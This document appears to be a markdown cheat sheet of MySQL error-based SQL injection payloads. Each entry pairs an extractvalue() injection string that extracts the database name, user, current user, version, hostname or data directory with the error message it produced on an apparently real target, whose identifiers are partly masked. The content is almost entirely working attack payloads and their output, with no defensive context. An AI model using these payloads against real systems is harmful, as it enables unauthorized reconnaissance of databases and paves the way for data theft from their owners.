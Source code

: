 * **Using database() Functions**

	1'+AND+1=extractvalue(rand(),concat(0x3a,database()))--+ 
	
	"sqlMessage":"XPATH syntax error: ':progress28app'"
  

* **Using user() Functions**

	1'+and+1=extractvalue(rand(),concat(0x3a,user()))--+ 
	
	"sqlMessage":"XPATH syntax error: ':progress28app@172.x.x.28'"


* **Using current_user() Functions**

	1'+AND+1=extractvalue(rand(),concat(0x3a,current_user()))--+
	
	"sqlMessage":"XPATH syntax error: ':progress28@%'"


* **Using version() Functions**

	1'+and+1=extractvalue(rand(),concat(0x3a,version()))--+ 

	"sqlMessage":"XPATH syntax error: ':5.7.26-log'"


* **Using @@hostname Functions**

	1'+AND+1=extractvalue(rand(),concat(0x3a,@@hostname))--+
	
	"sqlMessage":"XPATH syntax error: ':ip-xx.x.x.xxx'"


* **Using @@datadir Functions**

	1'+AND+1=extractvalue(rand(),concat(0x3a,@@datadir))--+
	
	"sqlMessage":"XPATH syntax error: ':/p28dbdata/db/'"
